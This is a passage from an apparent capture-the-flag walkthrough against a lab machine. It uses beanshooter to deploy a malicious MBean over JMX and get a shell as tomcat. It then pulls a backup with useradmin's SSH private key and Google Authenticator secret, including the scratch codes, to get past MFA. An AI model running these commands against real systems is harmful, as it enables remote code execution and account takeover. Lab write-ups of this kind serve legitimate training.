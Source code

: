 ```sh
$ java -jar  beanshooter-4.1.0-jar-with-dependencies.jar  standard  10.10.124.180 2222 tonka
[+] Creating a TemplateImpl payload object to abuse StandardMBean
[+]
[+] 	Deplyoing MBean: StandardMBean
[+] 	MBean with object name de.qtc.beanshooter:standard=2052703016539 was successfully deployed.
[+]
[+] 	Caught NullPointerException while invoking the newTransformer action.
[+] 	This is expected bahavior and the attack most likely worked :)
[+]
[+] 	Removing MBean with ObjectName de.qtc.beanshooter:standard=2052703016539 from the MBeanServer.
[+] 	MBean was successfully removed.

$ java -jar  beanshooter-4.1.0-jar-with-dependencies.jar tonka  shell 10.10.124.180 2222    
[tomcat@10.10.124.180 /]$ whoami
tomcat
```
here we go ! , we got our shell , also i found a `backup.tar.gz` in `/home/useradmin/backups`

```sh
[tomcat@10.10.124.180 /home]$ cd useradmin
[tomcat@10.10.124.180 /home/useradmin]$ ls
backups
[tomcat@10.10.124.180 /home/useradmin]$ cd backups
[tomcat@10.10.124.180 /home/useradmin/backups]$ ls
backup.tar.gz
```
we transfert it to our host and we decompress it .

```sh
$ tar -xzvf backup.tar.gz
./
./.bash_logout
./.profile
./.ssh/
./.ssh/id_ed25519
./.ssh/authorized_keys
./.ssh/id_ed25519.pub
./.bashrc
./.google_authenticator
./.cache/
./.cache/motd.legal-displayed
./.bash_history
```
In the backup, there is `useradmin`'s ssh keys, We use it to make ssh connection , but there is a MFA verification code.
```sh
$ ssh -i id_ed25519 useradmin@10.10.124.180
(useradmin@10.10.124.180) Verification code:
```
i tried one of the `TOTP`
```sh
$ cat .google_authenticator                       
CLSSSMHYGLENX5HAIFBQ6L35UM
" RATE_LIMIT 3 30 1718988529
" WINDOW_SIZE 3
" DISALLOW_REUSE 57299617
" TOTP_AUTH
99852083
20312647
73235136
92971994
86175591
98991823
54032641
```
